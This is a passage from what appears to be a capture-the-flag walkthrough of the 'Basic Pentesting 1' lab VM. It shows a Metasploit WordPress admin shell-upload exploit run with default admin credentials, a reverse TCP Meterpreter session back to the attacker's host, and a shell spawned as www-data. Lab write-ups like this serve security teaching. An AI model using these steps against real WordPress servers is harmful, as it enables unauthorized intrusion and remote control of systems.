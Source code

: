 <img src="/assets/img/uploads/basic-pentesting-1/wordpress.png">
</center>

Now that we are successfully logged in, we can upload a payload packaged as a WordPress plugin. We can use metasploit here to exploit the server.

```r
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /secret
TARGETURI => /secret
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD admin
PASSWORD => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST vtcsec
VHOST => vtcsec
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444
[*] Authenticating with WordPress using admin:admin...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /secret/wp-content/plugins/uCcfrmXGwS/RDKAHiOKtA.php...
[*] Sending stage (38288 bytes) to 192.168.1.7
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.7:45228)
[+] Deleted RDKAHiOKtA.php
[+] Deleted uCcfrmXGwS.php
[+] Deleted ../uCcfrmXGwS

meterpreter > shell
Process 1582 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vtcsec:$
```
